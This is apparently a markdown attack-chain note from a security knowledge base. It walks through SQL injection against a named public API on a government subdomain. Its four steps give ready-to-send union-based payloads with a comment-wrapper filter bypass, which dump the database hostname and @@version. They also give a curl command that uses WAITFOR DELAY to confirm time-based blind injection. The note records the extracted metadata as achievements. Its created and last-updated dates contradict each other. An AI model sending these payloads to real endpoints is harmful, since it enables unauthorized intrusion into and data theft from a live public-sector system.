

---
tags:
  - sqli
  - sql-injection
  - web
  - database-exfiltration
  - blind-injection
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/time]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/time-curl-blind-sqli-test]]'
platforms:
  - Web
  - Windows
complexity: medium
procedures:
  - '[[procedures/Discover-and-Test-SQL-Injection-Vulnerability]]'
  - '[[procedures/Exploit-Union-Based-SQLi-for-Hostname-Dump]]'
  - '[[procedures/Exploit-Union-Based-SQLi-for-Database-Version-Extraction]]'
  - '[[procedures/Confirm-Blind-SQLi-with-Time-Based-Delay]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A multi-stage SQL injection attack targeting an unsanitized API endpoint on a
  government subdomain, enabling database metadata extraction and confirmation
  of blind injection capabilities.
skill_level: intermediate
impact_level: high
id: 544c4332-924b-471f-ab7d-cfad20d5763d
created_at: '2025-12-14T17:26:17.823Z'
updated_at: '2025-12-14T17:26:17.823Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SQL Injection Exploitation via Union-Based and Time-Based Techniques on TVA SOA API

Multi-stage attack chain demonstrating SQL injection on a public-facing API endpoint to extract database metadata and confirm blind injection.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/time]]

### Target Environment

- Web platform with API endpoints
- Microsoft SQL Server backend
- Network access to public subdomain (e.g., soa-accp.glbx.tva.gov)

### Initial Access Requirements

- No credentials required (public-facing)
- Direct internet access to the target subdomain
- No prior access needed

## Detailed Attack Procedures

### Step 1: Subdomain Discovery and SQL Injection Testing
procedure: [[procedures/Discover-and-Test-SQL-Injection-Vulnerability]]

**Objective**: Identify the vulnerable subdomain and test the API endpoint for SQL injection flaws using injectable parameters like river codes.

**Instructions**: Manually probe the subdomain soa-accp.glbx.tva.gov, focusing on the /api/river/observed-data/ path. Append a river code like GVDA1 and test for injection by adding single quotes or other payloads to observe errors or unexpected behavior.

**Expected Output**: Database error messages or altered responses indicating unsanitized input.

**Success Indicators**:
- Error responses suggesting SQL parsing issues
- No immediate output but behavioral changes confirming potential injection point

### Step 2: Union-Based SQLi for Hostname Dump
procedure: [[procedures/Exploit-Union-Based-SQLi-for-Hostname-Dump]]

**Objective**: Inject a union-based payload to extract the database hostname by bypassing any filters with comment wrappers.

**Instructions**: Construct and send the payload via browser or tool to the endpoint: https://soa-accp.glbx.tva.gov/api/river/observed-data/GVDA1'+%2f*!50000union*%2f+SELECT+HOST_NAME()--+- . The payload uses URL encoding to inject the union select.

**Expected Output**: Response containing the database hostname, such as the server name.

**Success Indicators**:
- Hostname revealed in the API response
- Successful union query execution without errors

### Step 3: Union-Based SQLi for Database Version Extraction
procedure: [[procedures/Exploit-Union-Based-SQLi-for-Database-Version-Extraction]]

**Objective**: Use a similar union-based injection to retrieve the full database version details.

**Instructions**: Send the payload: https://soa-accp.glbx.tva.gov/api/river/observed-data/GVDA1'+%2f*!50000union*%2f+SELECT+@@version--+- to the endpoint, leveraging the same bypass technique.

**Expected Output**: Response with version string, e.g., "Microsoft SQL Server 2017 (RTM-CU22-GDR) (KB4583457) - 14.0.3370.1".

**Success Indicators**:
- Version information dumped successfully
- Confirmation of MSSQL backend

### Step 4: Time-Based Blind SQLi Confirmation
procedure: [[procedures/Confirm-Blind-SQLi-with-Time-Based-Delay]]

**Objective**: Verify the injection without visible output by inducing a measurable delay in the response.

**Instructions**: Execute [[commands/time-curl-blind-sqli-test]] to send a payload that triggers a 10-second delay if vulnerable:

```bash
time curl -k "https://soa-accp.glbx.tva.gov/api/river/observed-data/-GVDA1'+WAITFOR+DELAY+'0:0:10'--+-"
```

**Expected Output**: Command execution time of approximately 10 seconds or more.

**Success Indicators**:
- Delayed response confirming blind injection
- No data returned but timing anomaly observed

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed SQLi in a government API endpoint
2. Extracted critical database metadata including hostname and version
3. Validated blind SQLi capabilities for further exploitation potential

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01*
